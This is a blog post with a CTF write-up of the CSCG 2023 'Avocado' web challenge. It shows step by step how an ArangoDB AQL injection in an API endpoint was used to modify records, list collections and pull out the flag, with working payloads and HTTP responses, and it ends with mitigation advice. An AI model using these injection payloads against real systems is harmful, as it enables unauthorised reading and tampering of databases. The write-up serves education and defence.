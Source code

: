 ```yaml
---
layout: post
title: "CSCG 23 - Writeup: Avocado"
categories: ctf, cscg
author:
- Gehim
---
```

Exploiting an injection vulnerability in the not so well known ArangoDB.

This year i participated in the [CSCG][CSCG] and managed to qualify for the finals again. All participants were required to submit three writeups to be eligible for the final round. I chose this challenge because despite its simplicity only 32 people were able to solve it. Thus, i hope this writeup serves as an educational resource for newer players.

# Overview
- Category: Web
- Difficulty: Easy
- Author: TheVamp
- Solves: 32

> I love avocados! So I created a small website to show what different kinds of avocados exists. Hope you like it :) PS: Be aware that the setup take around 30 Seconds to boot.

We start by exploring the challenge setup. Unfortunately, we do not have the source code available for the challenge website, so we have to collect some intel manually. The website is a simple React application that provides information about different avocado types. Intercepting the network traffic with a proxy tool such as Burp, we can see that the application communicates with a backend API.

```
GET /api/avocado/Bacon HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:39:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 196
Access-Control-Allow-Origin: *
Connection: close

{"_key": "166", "_id": "avocado_items/166", "_rev": "_f9tH3rS---", "name": "Bacon", "shape": \
"oval", "skin": "smooth", "seed_size": "Medium/Large", "weight": "6-12 ounces", "size": \
"Medium/Large"}
```

Changing the avocado name to something else triggers an interesting error.

```
GET /api/avocado/Hallo HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:43:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 91
Access-Control-Allow-Origin: *
Connection: close

{"error": "Error in Query: FOR avc in avocado_items FILTER avc.name == 'Hallo' RETURN avc"}
```

The usual next step is to check whether we might be able to inject something in the query. So for example,
we try to insert an single quotation mark to escape from the string.

```
GET /api/avocado/Hallo' HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:43:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 91
Access-Control-Allow-Origin: *
Connection: close

{"error": "Error in Query: FOR avc in avocado_items FILTER avc.name == 'Hallo'' RETURN avc"}
```

It works. Apparently, special characters are not properly encoded or filtered. This means we can inject a
malicious payload here. However, the database at hand is not your usual SQL database. A quick search
for "avocado database" leads to [https://www.arangodb.com/][arangodb]. ArandoDB is a graph database and the
queries are written in the [ArangoDB Query Language (AOL)][AOL].

# Solution

Usually, in query injection attacks the remaining part of the query is removed by inserting a comment. Since comments in the AOL all start with a forward slash, this is not an option here. Thus, we have to make sure we craft valid queries. If we insert the following payload (do not forget to use proper URL encoding):

```
' OR true UPDATE { _key: 'references', name: "CSCG" } IN avocado_items LET name = '
```

The query executed will be:

```
FOR avc in avocado_items FILTER avc.name == '' OR true UPDATE { _key: 'references', name: "CSCG" } IN avocado_items LET name = '' RETURN avc
```

If we visit the website again, we can see that we successfully changed the name.

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:05:51 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 471
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": "CSCG"}
]
```

Ok, so are able add stuff to the collections, but where is the flag? Luckily, AOL comes with a [bunch of predefined functions][functions] we can use. The most important one is `COLLECTIONS()`, since it returns a list of all available collections in the database. Upon using the following payload:

```
' OR true UPDATE { _key: 'references', name: COLLECTIONS() } IN avocado_items LET name = '
```

We retrieve a list of collections:

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:13:52 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 844
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": [
        {"_id": "128", "name": "_analyzers"},
        {"_id": "143", "name": "_appbundles"},
        {"_id": "140", "name": "_apps"},
        {"_id": "131", "name": "_aqlfunctions"},
        {"_id": "146", "name": "_frontend"},
        {"_id": "125", "name": "_graphs"},
        {"_id": "137", "name": "_jobs"},
        {"_id": "134", "name": "_queues"},
        {"_id": "161", "name": "avocado_items"},
        {"_id": "185", "name": "flag_items_c50044c5"}
        ]
    }
]
```

There we go. The flag is inside the `flag_items_c50044c5` collection. Now we make use of subqueries to extract the flag with

```
' OR true LET flag = (FOR f IN flag_items_c50044c5 RETURN f) UPDATE { _key: 'references', name: flag } IN avocado_items LET name = '
```

Visiting the website again, we are greeted with a juicy flag.

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:17:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 594
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": [
        {"_key": "yummy", "_id": "flag_items_c50044c5/yummy",
        "_rev": "_f9tH3r6---", "flag": "CSCG{yummy_4v0c4d0_db_gr4ph_1nj3ct10ns}"}
        ]
    }
]
```

# Mitigation
This is a very classic attack. Every input parameter that is used in a database query needs to be sanitized. It is of utmost importance to escape special character. That way we are unable to escape from the string and forge malicious payloads. Furthermore, it is considered good practise to disable error messages, or at least use a more generic one. This way, even if a potential vulnerability exists, it is more difficult to exploit it in practise.

[AOL]: https://www.arangodb.com/docs/stable/aql/
[CSCG]: https://cscg.de/
[arangodb]: https://www.arangodb.com/
[functions]: https://www.arangodb.com/docs/stable/aql/functions-miscellaneous.html